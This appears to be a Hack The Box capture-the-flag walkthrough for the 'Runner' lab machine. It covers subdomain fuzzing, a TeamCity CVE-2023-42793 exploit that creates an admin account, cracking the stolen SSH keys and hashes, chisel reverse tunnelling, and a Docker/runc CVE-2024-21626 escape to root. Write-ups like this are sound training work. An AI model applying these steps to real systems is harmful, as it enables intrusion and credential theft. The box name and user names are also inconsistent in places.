 ```yaml
---
title:  HTB - Runner
date: 2023-06-07 12:17:34 -0400
categories: [hackthebox , Runner]
tags: [HackTheBox, Pivoting, wfuzz, TeamCity, ssh, john, chisel, portainer, docker,fuzz]
image:
  path: /assets/img/post/runner/runner-card.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - Runner.
---
```


## Box Info

| Name                  | Bizness          | 
| :-------------------- | ---------------: |
| Release Date          | 08 Jun, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Medium           |

## Enumeration

### Nmap

![Image](/assets/img/post/runner/0.png)

### Resolution DNS

```bash
echo "10.10.11.13 runner.htb | sudo tee -a /etc/hosts
```

### Scanning SubDomain

```bash
wfuzz -c -w /usr/share/wordlists/amass/shubs-subdomains.txt --hc 400,404,403,302 -H "Hosts: FUZZ.runner.htb" -u http://runner.htb -t 100
```

![Image](/assets/img/post/runner/1.png)

```bash
Whatweb http://runner.htb
```
## CVE-2023-42793 for Jet Brains

We can see the version of `TeamCity build management server`.

![Image](/assets/img/post/runner/2.png)

Googling `Teamcity 2023.05.3` exploit i found a `RCE` vulnerability for it.

![Image](/assets/img/post/runner/3.png)

PoC[^poc]: <https://github.com/Zyad-Elsayed/CVE-2023-42793>

```bash
python3 exploit.py -u http://teamcity.runner.htb -n test2 -p test122 -e test2@test.com
```

![Image](/assets/img/post/runner/4.png)

The script exploits to create an admin account on a TeamCity server. It sends a POST request to the target URL to create an admin user with specified or random credentials.

![Image](/assets/img/post/runner/5.png)

## SSH

Once inside, I enumerate these sections and found in Diagnostics make a backup and storage in a zip file and can we display the folders and found id_rsa.

![Image](/assets/img/post/runner/6.png)

We go to download and save for login with ssh.

![Image](/assets/img/post/runner/7.png)

Wait.. but dont have a user for login with ssh...

![Image](/assets/img/post/runner/8.png)

We also found users and there hashes in same folder.

![Image](/assets/img/post/runner/9.png)

## Crack Hash

We go to crack the password for it.

![Image](/assets/img/post/runner/10.png)

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt hash.txt
```
Using default input encoding: UTF-8 Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3]) Remaining 1 password hash Cost 1 (iteration count) is 128 for all loaded hashes Will run 2 OpenMP threads

Password: `piper123`

Till now we have one id_rsa file, two users (Methew, jhon),password for Methew.

`ssh -i id_rsa john@10.10.11.13`

![Image](/assets/img/post/runner/12.png)

![Image](/assets/img/post/runner/11.png)

## Port Forwarding

```bash
netstat -nltp
ss -nltpu
```

127.0.0.1:9000 its potential, I’ll be employing Chisel for port forwarding.

![Image](/assets/img/post/runner/13.png)

```bash
chisel server -p 6150 --reverse (Attack Machine)
./chisel client 10.10.14.68:6150 R:9000:127.0.0.1:9000 (Victim machine)
```

![Image](/assets/img/post/runner/14.png)

We go to our port 9000

![Image](/assets/img/post/runner/15.png)

## Docker

Login with credentials `matthew` - `piper123`

<https://nitroc.org/en/posts/cve-2024-21626-illustrated/#how-docker-engine-calls-runc>

![Image](/assets/img/post/runner/16.png)

## CVE-2024-21626 for Docker

![Image](/assets/img/post/runner/17.png)

the path `/proc/self/id/8` is from the [CVE-2024-21626](https://nitroc.org/en/posts/cve-2024-21626-illustrated/#how-docker-engine-calls-runc) - [PoC - GitHub](https://github.com/NitroCao/CVE-2024-21626?tab=readme-ov-file)

![Image](/assets/img/post/runner/18.png)

Now we go to console

![Image](/assets/img/post/runner/19.png)

Execute a `/bin/bash` as root

![Image](/assets/img/post/runner/20.png)

Just login as root and look the folder `root` for the flag

![Image](/assets/img/post/runner/21.png)

Root

#### Source
[^poc]: <https://github.com/Zyad-Elsayed/CVE-2023-42793>